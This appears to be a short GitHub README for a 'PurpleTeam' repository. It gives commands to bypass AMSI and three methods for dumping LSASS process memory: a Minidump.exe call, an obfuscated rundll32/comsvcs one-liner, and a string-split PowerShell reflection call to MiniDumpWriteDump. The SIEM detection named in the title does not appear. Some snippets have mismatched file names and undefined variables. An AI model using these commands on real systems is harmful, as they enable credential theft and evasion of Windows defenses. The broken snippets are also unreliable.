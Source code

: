 # PurpleTeam
Execution Bypass AMSI and Lsass Dump Attacks and detection by SIEM

Bypass AMSI
-
Run file in powershell and then execute below command :
'AmsiUtils'

Lsass Dump via mini dump needs to run as admin access

Method 1 to Lsass Dump:
-
Minidump.exe <lsass PID>


Method 2 to lsass Dump:
-
&$env:???t??r???\*2\r[t-u]???[k-l]?2* $(gi $env:???t??r???\*2\c?m?[v-w]*l | % {$_.FullName }), `#-999999999999999999999999999999999999999999999999999999999999999999999999999999999976-decoy $(gps l?a*s).id c:\parastoo.tmp full; Wait-Process -Id (Get-Process rundll32).id ; (Get-Item -Path c:\dmp.tmp).Encrypt();


Method 3 to Lsass Dump:
-
1-Crete temp folder in drive C:

2-Execute below commands in powershell

$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$PF = "$($P.Name)_$($P.Id).dmp"
$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()



https://github.com/ParastouRazi/PurpleTeam/assets/85788536/f031c264-c4f9-4fcb-8bee-17badf0866b0



See below link to view execution 

https://www.youtube.com/watch?v=Nfh9EEJ8wcw
-





